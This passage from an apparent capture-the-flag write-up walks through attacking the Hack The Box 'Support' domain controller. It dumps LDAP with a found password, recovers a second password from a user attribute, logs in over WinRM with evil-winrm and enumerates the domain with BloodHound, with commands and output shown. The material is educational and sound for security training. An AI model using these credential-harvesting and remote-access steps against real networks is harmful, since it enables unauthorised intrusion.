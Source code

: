In CTFs as in the real world, password reuse is very common, so we create a ```users.txt``` file and we use netexec to attempt password spraying, unfortunately without success.

Since the user is called ldap, and the executable is executing a ldap query with the password we found, we can try enumerating ldap to see if we find any hiddin passwords or clues.
```bash
ldapsearch -x -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7********************' -b 'dc=support,dc=htb' > ldapsearch.txt
```
Examining the ```ldapsearch.txt``` that contains the results, we find an interesting string with the name of ```info``` that seems to containg what looks like a password for the user ```support```
```bash
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Iron*************************
```

Looking back at the ```nmap``` scan, we see that port ```5985```which is used for windows remote management is open, so we attempt to login with the new potential password we found.
```bash
 evil-winrm -i 10.10.11.174 -u support -p 'Iron*************************' 

*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
*Evil-WinRM* PS C:\Users\support\Documents> hostname
dc
*Evil-WinRM* PS C:\Users\support\Documents> dir C:\Users\support\Desktop


    Directory: C:\Users\support\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         5/24/2025   3:18 AM             34 user.txt
```
And we are in, we can now grab the user flag with the command ```type user.txt```

Since we are against a domain controller, and have a valid user, we can use ```bloodhound``` to enumerate the domain further.

For a complete guide on how to setup bloodhound, there is a great video byTyler Ramsbey [here](https://www.youtube.com/watch?v=RhdhLwZHZmU&t=431s).

Once neo4j and bloodhound are running, we use the ad-bloodhound.sh to enumerate the domain and upload the files to bloodhound.
```bash
./ad-bloodhound.sh                                                    
Domain: 
support.htb
Username: 
support
Password: 
Iron*************************
IP of Domain: 
10.10.11.174
INFO: Found AD domain: support.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
```